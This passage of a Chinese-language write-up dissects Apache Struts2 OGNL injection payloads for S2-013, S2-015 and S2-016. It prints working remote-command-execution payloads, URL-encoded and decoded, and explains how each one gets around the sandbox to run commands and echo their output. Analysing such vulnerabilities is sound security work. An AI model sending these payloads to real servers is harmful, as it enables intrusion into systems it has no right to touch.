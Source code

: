 url解码后:

```java
?a=${#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println('dbapp='+new java.lang.String(#d)),#out.close()}
```

> S2-013的payload和S2-005的payload类似,不再设置xwork.MethodAccessor.denyMethodExecution属性为false,也不再需要对@、#进行unicode编码.其余的就和S2-005的payload类似了.

> 首先设置_memberAccess.allowStaticMethodAccess属性为true来开启静态方法调用绕过安全沙盒的限制.

> 剩下的流程就是执行命令,并把结果回显出来.首先以id为参数调用java.lang.Runtime类的getRuntime().exec()方法进行执行命令,然后以执行的命令结果的输入流为参数新建一个java.io.DataInputStream对象来获取执行命令结果的输入流,之后新建一个数组,然后把在输入流中读取的字符赋值给这个数组.然后以这个数组为参数新建一个字符串对象,之后调用org.apache.struts2.ServletActionContext类的getResponse()方法获取一个response对象,最后调用response对象的getWriter().println方法输出这个字符串,于是就能看到了命令回显内容.

## S2-015

```java
%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass().getDeclaredField(%27allowStaticMethodAccess%27)%2C%23m.setAccessible(true)%2C%23m.set(%23_memberAccess%2Ctrue)%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec(%27whoami%27).getInputStream())%2C%23q%7D.action
```

url解码后的结果:

```java
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream()),#q}.action
```

> 这个payload仍然还是先设置xwork.MethodAccessor.denyMethodExecution属性为false,设置_memberAccess的allowStaticMethodAccess属性时委婉了些,不能再直接修改.通过反射将allowStaticMethodAccess的值改变,先调用_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),然后设置这个属性为true,然后再设置_memberAccess属性为true.后面执行执行命令并输出结果的流程就和S2-007一样了.调用
java.lang.Runtime类的getRuntime().exec方法执行whoami命令,然后获取执行结果的输入流,最后调用org.apache.commons.io.IOUtils的toString方法把输入流转换为字符串并输出.

## S2-016

```java
?redirect%3A%24%7B%23a%3D(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%20%7B%22id%22%7D)).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew%20java.io.InputStreamReader%20(%23b)%2C%23d%3Dnew%20java.io.BufferedReader(%23c)%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read(%23e)%2C%23matt%3D%20%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse')%2C%23matt.getWriter().println%20(%23e)%2C%23matt.getWriter().flush()%2C%23matt.getWriter().close()%7D
```

url解码后:

```java
?redirect:${#a=(new java.lang.ProcessBuilder(new java.lang.String[] {"id"})).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader (#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt= #context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),#matt.getWriter().println (#e),#matt.getWriter().flush(),#matt.getWriter().close()}
```
